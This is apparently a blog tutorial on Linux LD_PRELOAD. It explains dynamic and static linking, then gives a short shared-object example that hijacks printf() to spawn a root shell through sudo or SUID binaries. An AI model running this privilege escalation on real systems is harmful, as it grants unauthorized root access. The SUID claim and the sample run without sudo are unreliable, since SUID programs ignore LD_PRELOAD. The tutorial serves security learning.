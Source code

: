 ```yaml
---
layout: post
title: "[Tutorial] LD_PRELOAD Usage and Exploitation"
date: 2025-10-24
categories: [Tutorial, LD_PRELOAD]
---
```


# {{ page.title }}

## What is LD_PRELOAD and how does it work?
**LD_PRELOAD** is an environment variable on Linux and Unix-like systems, when used, it tells the dynamic linker to load one or more **shared objects** (libraries) *before* any other libraries when a **dynamically linked binary** is run.

Because the **shared object's** defined by **LD_PRELOAD** are loaded before any other libraries, any symbols (*functions or variables*) defined within them can *override* the same-named symbols within **LIBC** or other shared libraries.

This only works on binaries that are **not** statically compiled, meaning they link libraries at runtime.

## Static and Dynamic Links
By default, when compiling a binary with `gcc`, it will compile it *dynamically linked* unless the `-static` flag is provided during compilation.

### Compiling a Dynamically Linked Binary
```c
#include <stdio.h>

int main(){
    printf("Hello World!\n");
    return 0;
}
```

Compiling this C code with the command `gcc hello.c -o hello` and then running the command `readelf -h ./hello` to fetch data about the binary from its header, we can see that the **Type** is `DYN (Position-Independant Executable File)`. The `DYN` simply means that it is dynamically linked.

Running `ldd ./hello`, it will show us what libraries are dynamically linked at runtime.
```bash
$ ldd ./hello
    linux-vdso.so.1
    libc.so.6 -> /lib/x86_64-linux-gnu/libc.so.6
    /lib64/ld-linux-x86-64.so.2
```

### Compiling a Statically Linked Binary
```c
#include <stdio.h>

int main(){
    printf("Hello World!\n");
    return 0;
}
```

Compiling the same C code, however this time with the **-static** flag, `gcc -static hello.c -o hello` and running the command `readelf -h ./hello` we can see that the **Type** is now `EXEC (Executable File)`, showing that it is not dynamically linked.

```bash
$ ldd ./hello
    not a dynamic executable
```
Then, again, running `ldd ./hello` we get the output `not a dynamic executable`.

## Using LD_PRELOAD
**LD_PRELOAD** can be used for numerous purposes, these include intercepting function calls, avoiding anti-debugger techniques, leaking values from the stack or arguments passed to the function, or even executing malicious code in place of a legitemate function call.

### Example: Executing Malicious Code
For this example, we will compile a binary using the following code. It is a very basic program that prompts the user to enter their name before printing *"Hello, {name}!"*.

```c
#include <stdio.h>

int main() {
    char name[8];

    printf("Enter your name: ");
    fgets(name, 8, stdin);
    printf("Hello, %s", name);
    return 0;
}
```
Compile the binary with `gcc example.c -o example`.

We can see that there are three function calls within this code, two to `printf()` and one to `fgets()`.

Let's assume that in our imaginary scenario, we want to be able to spawn a shell, maybe the binary is **SUID** or you can run it using **sudo** and **LD_PRELOAD** has been allowed when running it with **sudo**. Escalating our privileges to root or whatever user owns the binary (in the case of it being **SUID**).

We can write our own **shared object** including a custom implementation of the `printf()` function. Our implementation will spawn an interactive shell.

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>

int printf(const char *format, ...) {
    unsetenv("LD_PRELOAD");
    system("/bin/bash");
    return 0;
}
```
Compile the shared object with `gcc preload.c -o preload -fPIC -shared -ldl`.

When the `printf()` function is called, we first unset the environment variable **LD_PRELOAD**. This prevents issues when we try to call the `system()` function. Issues could occur because the `system()` function is part of **LIBC** and we are using **LD_PRELOAD** to point to our own shared object which loads before **LIBC**, this would mean that it would try to look for an implementation of `system()` within our own shared object, but it doesn't exist.

Finally, we can run the `example` binary and set **LD_PRELOAD** to point to our shared object.

```bash
user@server~$ LD_PRELOAD=./preload ./example

root@server~# whoami
root
```

You can see an example of using **LD_PRELOAD** to leak values from the stack in the writeup of the first challenge (**utumno0**) from **OverTheWire: Utumno**.

#### Additional Resources:
- [https://axcheron.github.io/playing-with-ld_preload/](https://axcheron.github.io/playing-with-ld_preload/)
- [https://www.bordergate.co.uk/ld_preload-exploitation/](https://www.bordergate.co.uk/ld_preload-exploitation/)